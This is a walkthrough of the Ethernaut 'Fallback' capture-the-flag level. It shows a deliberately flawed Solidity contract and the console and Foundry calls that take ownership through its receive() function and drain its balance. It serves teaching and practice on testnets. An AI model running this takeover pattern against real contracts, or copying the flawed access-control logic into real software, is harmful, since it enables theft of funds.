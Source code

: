 # Fallback – Level 1 Walkthrough

Welcome to the first level of the **Ethernaut** wargame by [OpenZeppelin](https://ethernaut.openzeppelin.com/), focused on fallback function vulnerabilities.

---

## Challenge Objective

You are given a contract with a fallback function that can be exploited. Your goal is to:

- Become the contract owner by exploiting the fallback logic
- Withdraw the contract's ETH balance
- Submit the instance to complete the level

---

## Prerequisites

Before you begin, ensure the following:

- **MetaMask** is installed and connected
- **Test ETH** is available (Goerli, Sepolia, etc.)
- Familiarity with using **browser DevTools** and executing JavaScript commands
- Access to the [Ethernaut Game](https://ethernaut.openzeppelin.com/)

---

## Contract Overview

Key parts of the `Fallback.sol` contract:

```solidity
mapping(address => uint) public contributions;
address public owner;

function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}

receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}

function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
}
```

---

## Walkthrough – Step by Step

### 🗒️ Step 1: Check the Current Owner (Optional)

```js
await contract.owner()
```
> The owner is likely not your address yet.

---

### 🛠️ Step 2: Make a Small Contribution

```js
await contract.contribute({ value: "1" }) // 1 wei is enough
```
> This registers your address with a nonzero contribution.

---

### 🔍 Step 3: Trigger the Fallback

```js
await contract.sendTransaction({ value: "1" })
```
> This calls the `receive()` function, which checks your contribution and sets you as the owner.

---

### ✅ Step 4: Confirm Ownership

```js
await contract.owner()
```
> The owner should now be your address.

---

### 💸 Step 5: Withdraw All ETH

```js
await contract.withdraw()
```
> As the new owner, you can drain the contract's balance.

---

### 🚀 Step 6: Submit the Level

Click **“Submit instance”** in the UI and confirm the MetaMask transaction. Once successful, the level is marked as **completed**.

---

## 🛠️ Alternative: Using Foundry Script

You can automate the exploit with a script:

```solidity
fallbackInstance.contribute{ value: 1 wei }();
address(fallbackInstance).call{ value: 1 wei }("");
fallbackInstance.withdraw();
```

---

## 💡 What You Learn

- How fallback and receive functions can be abused
- The importance of contribution checks in contract logic
- How to claim ownership by exploiting fallback logic
- The risks of improper access control in smart contracts

---

## Concepts Covered

| Concept             | Description                                                                  |
| ------------------- | ---------------------------------------------------------------------------- |
| Fallback Functions  | Special functions triggered by direct ETH transfers                          |
| Ownership Takeover  | Ownership can change via fallback if contribution conditions are met         |
| Withdrawal Patterns | Only the owner can withdraw contract funds                                   |
| Web3 Interaction    | Using injected contract instances and console JS to interact                 |

---

## Resources

- [Ethernaut Game](https://ethernaut.openzeppelin.com/)
- [YouTube Walkthrough](https://www.youtube.com/watch?v=TQKj2xvsGec)
- [blog](https://shubhamm.me/blog/08-ethernaut-challenges-fallback)

---
